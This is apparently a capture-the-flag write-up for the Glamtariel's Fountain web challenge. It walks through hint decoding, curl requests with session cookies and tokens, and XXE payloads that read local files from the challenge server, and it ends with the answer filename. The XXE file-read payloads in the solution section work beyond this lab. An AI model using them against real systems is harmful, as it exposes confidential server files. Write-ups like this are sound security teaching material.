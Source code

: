 # Glamtariel's Fountain

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [fountain website](https://glamtarielsfountain.com/)

## Objective

!!! question "Request"
    Stare into Glamtariel's fountain and see if you can find the ring! What is the filename of the ring she presents you? Talk to Hal Tandybuck in the Web Ring for hints.

??? quote "Akbowl"
    Huh - what? Why do you disturb Akbowl?<br/>
    I'm trying to get the ring in here for the Sporc Chief.<br/>
    Unlucky for me it's lost in this water basin thing.<br/>
    You will not get it out before Akbowl!


## Hints

??? hint "Significant CASE"
    Early parts of this challenge can be solved by focusing on Glamtariel's WORDS.

??? hint "eXternal Entities"
    Sometimes we can hit web pages with XXE when they aren't expecting it!


## Solution

The first hint talks about using the capitalized words in the messages to solve part of the challenge:

1. I don't know why anyone would ever ask me to TAMPER with the cookie recipe.
2. Kringle really dislikes it if anyone tries to TAMPER with the cookie recipe Glamtariel uses
3. I helped the elves to create the PATH here to make sure that only those invited can find their way here
4. The elves do a great job making PATHs which are easy to follow once you see them.
5. Did you know that I speak in many TYPEs of languages?
6. Fake tickets to get in here? Snacks that don't taste right? How could that be?
7. Careful with the fountain! I know what you were wondering about there. It's no cause for concern. The PATH here is closed!
8. Between Glamtariel and Kringle, many who have tried to find the PATH here uninvited have ended up very disAPPointed
9. I like to keep track of all my rings using a simple format, although I usually don't like to discuss such things.
10. I know I've heard through the ice cracks that Kringle is missing a special one. (i.e., special ring)
11. Wow!, what a beautiful silver ring! I don't have one of these. I keep a list of all my rings in my RINGLIST file.
12. I've heard Glamtariel talk in her sleep about rings using a different TYPE of language. She may be more responsive about them if you ask differently.

Putting the hints together, including the one we got from solving the Boria Door bonus levels, and information obtained by capturing data passing to and from our web browser from talking to the princess and the fountain, we find:
1. Image resouces are hosted at /static/images/ (i.e. /static/images/img3-1670608613565.png)
2. XXE in combination with the TYPE hints indicates we can probably also talk to the princess using XML
3. Talking to the princess and the fountain happens via POST to https://glamtarielsfountain.com/dropped
4. POST requests send 3 values: `imgDrop` (the image HTML ID), `who` (entity we're talking to), `reqtype` (json or xml)
5. Requests need to include a valid CSRF token (i.e., ticket) and cookies

Testing this out using cURL we can build the following request using cookies and ticket details copied from our web browser:
```shell
curl -X POST https://glamtarielsfountain.com/dropped \
-H "Content-Type: application/json" \
-H "Accept: application/json" \
-H $GRINCHUM \
-H $COOKIE \
-d '{"imgDrop":"img1","who":"princess","reqType":"json"}'
```

Messages on the websites are triggered via images names img1, img2, img3, and img4. After a while they are replaced with a new set, but the names remain the same. So we can just keep sending cURL requests with updated values for `imgDrop` and `who`. After some time we will hit the part where the eye appears in the UI. In the CLI this presents itself with a response that has the `visit` field set to an image resource.

```
{'appResp': "Careful with the fountain! I know what you were wondering about there. It's no cause for concern. The PATH here is closed!^Between Glamtariel and Kringle, many who have tried to find the PATH here uninvited have ended up very disAPPointed. Please click away that ominous eye!", 'droppedOn': 'fountain', 'visit': 'static/images/stage2ring-eyecu_2022.png,260px,90px'}
```

These images can be downloaded, but only if you ensure the ticket and cookie information is present in the request. Once we have gone through all iterations (i.e., the princess and fountain have nothing more to say about the items), we can switch to sending XML requests to the princess.

```shell
curl -X POST https://glamtarielsfountain.com/dropped \
-H "Content-Type: application/xml" \
-H "Accept: application/json" \
-H $GRINCHUM \
-H $COOKIE \
-d @req.xml
```

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<root>
<imgDrop>goldring</imgDrop>
<who>princess</who>
<reqType>xml</reqType>
</root>
```

This is where the XXE exploitation comes into play and we need to use the hints provided about PATH, APP, RINGLIST, and the simple file format of the ring list. Putting those together gives us the `/app/static/images/ringlist.txt` path. We can use techniques described at https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files to leverage XXE to make the server read the contents of that file. So let's modify our XML request data.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>
<root>
<imgDrop>&xxe;</imgDrop>
<who>princess</who>
<reqType>xml</reqType>
</root>
```

Similar to the response we received when the eye appeared, this will also send a response back that contains a `visit` field that points to an image file which we can download, making sure to include our ticket and cookie.

```
{'appResp': "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)", 'droppedOn': 'none', 'visit': 'static/images/pholder-morethantopsupersecret63842.png,262px,100px'}
```

pholder-morethantopsupersecret63842.png gives us `x_phial_pholder_2022` with `bluering`, `redring.txt`. There's alo a reference to a gold, red, and blue ring, and from the messages we already know the princess likes silver rings as well. So we use this information to define additional paths to access files from.

- /app/static/images/x_phial_pholder_2022/bluering.txt
- /app/static/images/x_phial_pholder_2022/redring.txt
- /app/static/images/x_phial_pholder_2022/goldring.txt
- /app/static/images/x_phial_pholder_2022/silverring.txt
- /app/static/images/x_phial_pholder_2022/greenring.txt

`silverring.txt` and `greenring.txt` again yield a `visit` field with an image resource in the response. The redring-supersupersecret928164.png image file has an inscription that says "goldring_to_be_deleted.txt". So we use XXE once more with `/app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt`.

```
{'appResp': "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.", 'droppedOn': 'none', 'visit': 'none'}
```

We need to use the `imgDrop` field again to hand over the right ring, so we need to move the XXE to another field for this to work. We need the XXE because we want to trigger the secret behavior like before, but we also need the `imgDrop` field to get the proper image across.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>
<root>
<imgDrop>img1</imgDrop>
<who>princess</who>
<reqType>&xxe;</reqType>
</root>
```

```
{'appResp': "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!", 'droppedOn': 'none', 'visit': 'static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px'}
```

Useful:
- HTTP response headers: Werkzeug/2.2.2 Python/3.10.8
- There is a werkzeug console at: https://glamtarielsfountain.com/console

!!! done "Answer"
    `goldring-morethansupertopsecret76394734.png`


### Response

!!! quote "Akbowl"
    No! That's not yours!<br/>
    This birdbath showed me images of this happening.<br/>
    But I didn't believe it because nobody is better than Akbowl!<br/>
    Akbowl's head is the hardest! That's what the other sporcs tell me.<br/>
    I guess Akbowl's head is not the smartest.
